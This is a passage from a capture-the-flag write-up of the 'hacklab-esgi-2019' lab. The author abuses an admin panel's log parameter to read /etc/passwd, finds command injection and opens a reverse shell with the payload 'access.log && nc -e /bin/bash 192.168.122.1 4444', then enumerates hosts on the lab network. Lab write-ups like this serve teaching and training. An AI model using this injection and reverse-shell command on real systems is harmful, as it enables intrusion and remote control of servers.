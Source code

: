The last couple of credentials is correct and permit to access to the admin panel.

![](/img/hacklab-esgi-2019/8.png)

The page give us some informations about the admin panel functionnalities. If we click on show button, the page give us some data. 

![](/img/hacklab-esgi-2019/9.png)

There is access log information of the current webserver. If we look closer on BurpSuite we can see that HTTP POST request contain parameter `log=access.log`

![](/img/hacklab-esgi-2019/10.png)

# Step 4 : RCE on dev-server

`access.log` seems to be a file system. We know server is a Debian OS based on Linux. We can try to display others files like `/etc/passwd`.

![](/img/hacklab-esgi-2019/11.png)

Nice it's work ! Let's do some fuzzing.

![](/img/hacklab-esgi-2019/12.png)

Some protections are on. But strange, we are not blocked by the ModSecurity. Maybe the developper deactived it to not be annoyed in developpment. Let's fuzz harder.

![](/img/hacklab-esgi-2019/13.png)

Oh ! Look at it ! Developper use shell function to read the access log ! We have a command injection. Nice :D

Let's get a reverse shell.

Injection : `access.log && nc -e /bin/bash 192.168.122.1 4444`

![](/img/hacklab-esgi-2019/14.png)

Nice `nc` is installed. IZI pwn :D

![](/img/hacklab-esgi-2019/15.png)

# Step 5 : Grab forgotten sensitive informations

2 users are available in the `/etc/passwd` file. This is time to search on the server some informations.

![](/img/hacklab-esgi-2019/16.png)

We can grab some network informations in `/etc/hosts` file

```
www-data@dev-server:/var/www/html/0cc175b9c0f1b6a831c399e269772661$ cat /etc/hosts

127.0.0.1	localhost
127.0.1.1	dev-server

10.0.0.1	dev-server 		dev-server.zedcorp
10.0.0.2	project-server 	project-server.zedcorp
10.0.0.3	admin-server	admin-server.zedcorp

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
```